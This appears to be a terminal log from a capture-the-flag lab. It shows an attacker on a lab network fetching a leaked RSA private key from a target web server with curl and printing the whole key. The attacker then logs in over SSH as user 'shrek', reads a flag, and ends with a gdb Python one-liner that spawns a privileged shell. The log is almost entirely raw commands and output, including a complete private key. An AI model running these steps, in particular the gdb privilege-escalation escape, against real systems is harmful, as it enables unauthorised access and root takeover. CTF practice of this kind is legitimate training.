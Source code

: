 ONSfc4coKwRq5T0zofHIKLYwO8vVpJq4iQ31r+oe7fAHh08w/mBC3ciCSi6EQdm5
RMxW0i4usAuneJ04rVmWWHepADB0BqYiByWtWFYAY9Kpks/ks9yWHn8CgYEAymxD
q3xvaWFycawJ+I/P5gW8+Wr1L3VrGbBRj1uPhNF0yQcA03ZjyyViDKeT/uBfCCxX
LPoLmoLYGmisl/MGq3T0g0TtrgvkFU6qZ3sjYJ+O/yrT06HYapJLv6Ns/+98uNvi
3VEQodZNII8P6WLk3RPp1NzDVcFDLmD9C40UAQ0CgYBokPgOUKZT8Sgm4mJ/5+3M
LZtHF4PvdEOmBJNw0dTXeUPesHNRcfnsNmulksEU0e6P/IQs7Jc7p30QoKwTb3Gu
hmBZxohP7So5BrLygHEMjI2g2AGFKbv2HokNvhyQwAPXDBG549Pi+bCcrBHEAwSu
v85TKX7pO3WxiauPHlUPVQKBgFmIF0ozKKgIpPDoMiTRnxfTc+kxyK6sFanwFbL9
wXXymuALi+78D1mb+Ek2mbwDC6V2zzwigJ1fwCu2Hpi6sjmF6lxhUWtI8SIHgFFy
4ovrJvlvvO9/R1SjzoM9yolNKPIut6JCJ8QdIFIFVPlad3XdR/CRkIhOieNqnKHO
TYnFAoGAbRrJYVZaJhVzgg7H22UM+sAuL6TR6hDLqD2wA1vnQvGk8qh95Mg9+M/X
6Zmia1R6Wfm2gIGirxK6s+XOpfqKncFmdjEqO+PHr4vaKSONKB0GzLI7ZlOPPU5V
Q2FZnCyRqaHlYUKWwZBt2UYbC46sfCWapormgwo3xA8Ix/jrBBI=
-----END RSA PRIVATE KEY-----

root@ip-10-10-98-96:~# 
root@ip-10-10-98-96:~# curl http://10.10.33.127//Cpxtpt2hWCee9VFa.txt >id_rsa
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--  100  1676  100  1676    0     0   818k      0 --:--:-- --:--:-- --:--:--  818k
root@ip-10-10-98-96:~# cat id_rsa 
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAsKHyvIOqmETYwUvLDAWg4ZXHb/oTgk7A4vkUY1AZC0S6fzNE
JmewL2ZJ6ioyCXhFmvlA7GC9iMJp13L5a6qeRiQEVwp6M5AYYsm/fTWXZuA2Qf4z
8o+cnnD+nswE9iLe5xPl9NvvyLANWNkn6cHkEOfQ1HYFMFP+85rmJ2o1upHkgcUI
ONDAnRigLz2IwJHeZAvllB5cszvmrLmgJWQg2DIvL/2s+J//rSEKyISmGVBxDdRm
T5ogSbSeJ9e+CfHtfOnUShWVaa2xIO49sKtu+s5LAgURtyX0MiB88NfXcUWC7uO0
Z1hd/W/rzlzKhvYlKPZON+J9ViJLNg36HqoLcwIDAQABAoIBABaM5n+Y07vS9lVf
RtIHGe4TAD5UkA8P3OJdaHPxcvEUWjcJJYc9r6mthnxF3NOGrmRFtDs5cpk2MOsX
u646PzC3QnKWXNmeaO6b0T28DNNOhr7QJHOwUA+OX4OIio2eEBUyXiZvueJGT73r
I4Rdg6+A2RF269yqrJ8PRJj9n1RtO4FPLsQ/5d6qxaHp543BMVFqYEWvrsdNU2Jl
VUAB652BcXpBuJALUV0iBsDxbqIKFl5wIsrTNWh+hkUTwo9HroQEVd4svCN+Jr5B
Npr81WG2jbKqOx2kJVFW/yCivmr/f/XokyOLBi4N/5Wqq+JuHD0zSPTtY5K04SUd
63TWQ5kCgYEA32IwfmDwGZBhqs3+QAH7y46ByIOa632DnZnFu2IqKySpTDk6chmh
ONSfc4coKwRq5T0zofHIKLYwO8vVpJq4iQ31r+oe7fAHh08w/mBC3ciCSi6EQdm5
RMxW0i4usAuneJ04rVmWWHepADB0BqYiByWtWFYAY9Kpks/ks9yWHn8CgYEAymxD
q3xvaWFycawJ+I/P5gW8+Wr1L3VrGbBRj1uPhNF0yQcA03ZjyyViDKeT/uBfCCxX
LPoLmoLYGmisl/MGq3T0g0TtrgvkFU6qZ3sjYJ+O/yrT06HYapJLv6Ns/+98uNvi
3VEQodZNII8P6WLk3RPp1NzDVcFDLmD9C40UAQ0CgYBokPgOUKZT8Sgm4mJ/5+3M
LZtHF4PvdEOmBJNw0dTXeUPesHNRcfnsNmulksEU0e6P/IQs7Jc7p30QoKwTb3Gu
hmBZxohP7So5BrLygHEMjI2g2AGFKbv2HokNvhyQwAPXDBG549Pi+bCcrBHEAwSu
v85TKX7pO3WxiauPHlUPVQKBgFmIF0ozKKgIpPDoMiTRnxfTc+kxyK6sFanwFbL9
wXXymuALi+78D1mb+Ek2mbwDC6V2zzwigJ1fwCu2Hpi6sjmF6lxhUWtI8SIHgFFy
4ovrJvlvvO9/R1SjzoM9yolNKPIut6JCJ8QdIFIFVPlad3XdR/CRkIhOieNqnKHO
TYnFAoGAbRrJYVZaJhVzgg7H22UM+sAuL6TR6hDLqD2wA1vnQvGk8qh95Mg9+M/X
6Zmia1R6Wfm2gIGirxK6s+XOpfqKncFmdjEqO+PHr4vaKSONKB0GzLI7ZlOPPU5V
Q2FZnCyRqaHlYUKWwZBt2UYbC46sfCWapormgwo3xA8Ix/jrBBI=
-----END RSA PRIVATE KEY-----

root@ip-10-10-98-96:~# chmod 600 id_rsa 
root@ip-10-10-98-96:~# ssh - id_rsa shrek@10.10.33.127
ssh: Could not resolve hostname -: Temporary failure in name resolution
root@ip-10-10-98-96:~# 
root@ip-10-10-98-96:~# ssh -i id_rsa shrek@10.10.33.127
The authenticity of host '10.10.33.127 (10.10.33.127)' can't be established.
ECDSA key fingerprint is SHA256:q9K14ILwuQ6aUiuLgCn+Vp4k/3sU97bMD+j/DxqjxLk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.33.127' (ECDSA) to the list of known hosts.
[shrek@shrek ~]$ ls
check.sh  flag.txt
[shrek@shrek ~]$ cat flag.txt
0069ba233da89efe6f48e7d214034130
[shrek@shrek ~]$ gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit